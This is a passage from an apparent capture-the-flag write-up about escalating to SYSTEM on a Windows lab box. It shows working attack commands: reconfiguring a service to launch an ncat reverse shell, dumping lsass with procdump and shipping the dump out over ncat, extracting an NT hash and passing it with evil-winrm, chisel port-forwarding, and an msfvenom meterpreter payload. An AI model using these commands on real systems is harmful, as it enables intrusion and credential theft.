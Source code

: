 Accesschk v6.12 - Reports effective permissions for securable objects
Copyright (C) 2006-2017 Mark Russinovich
Sysinternals - www.sysinternals.com

RW UsoSvc
        SERVICE_ALL_ACCESS
Exploitation the access
Now it was easy to a reverse shell as SYSTEM. I simply reconfigured the service to send me one. Note that I used “cmd /c start C:\Users\Public\Documents\ncat.exe --ssl -e cmd 10.10.15.130 8001” so that ncat gets started in a separate command prompt in cmd, which ensures it is not killed. Otherwise, since ncat does not implement the Windows Service API, it would get killed shortly after launch.


Abusing UsoSvc to get a reverse shell as SYSTEM
Pivoting to coby
Apparently SYSTEM cannot read the flag because it is encrypted. After a short moment of WTF I learned it was due to the flag being encrypted by EFS. This can be check with “cipher /c <file>":


SYSTEM cannot read the flag
There is a mimikatz guide to decrypt such files. However, I got some errors when using mimikatz on the box, got frustrated and looked for other ways.

Good old SysInternals to the rescue, I ran procdump and waited a long time to get the memory dump of lsass to my system. To dump it I ran procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp. I then copied over the dump with netcat. Locally I listened with “nc --ssl -lnvp 8005 > lsass.dmp”, then started the file transfer from the box with “ncat.exe --ssl -i 5 10.10.15.130 8005 < lsass.dmp”. 89 MB took a while but in the end it worked:


Transfer dump with ncat
Locally I now ran “pypykatz lsa minidump lsass.dmp” to dump the hashes. I got the NT hash of coby ("fa88e03e41fdf7b707979c50d57c06cf"):


Extracting the hash of coby
Now I had to access the host as this user in some way. Attempts to use psexec were not successful (frustration again). However, I noticed the box listens on 5985, but the port was firewalled. I uploaded github.com/jpillora/chisel to the box to forward the port (standalone Golang tool you can easily cross-compile for Windows). Locally I launched the server with “./chisel server -p 8989 --reverse”, then I connected the client from the target box with “./chisel.exe client 10.10.15.130:8989 R:5985:127.0.0.1:5985”.

With these preparations I was able to connect with github.com/Hackplayers/evil-winrm, passing the hash for coby: “./evil-winrm.rb -i 127.0.0.1 -u coby -H fa88e03e41fdf7b707979c50d57c06cf”. Now the flag was finally readable:


Port forwarding to get a WinRM shell
Meterpreter and Incognito
If WinRM would not have been available Meterpreter would have been the way to go. It can be used to run the incognito module, which allows to impersonate other users. As SYSTEM, you can impersonate anybody. Thus I could use it to become coby and read the flag.

To get meterpreter, I used “msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.15.130 LPORT=443 -f exe -o /tmp/www/msf.exe” to generate an executable, transfered it to the box and started it using UsoSvc. Locally I ran a handler and got the session. This was all I needed to become coby and get the flag:
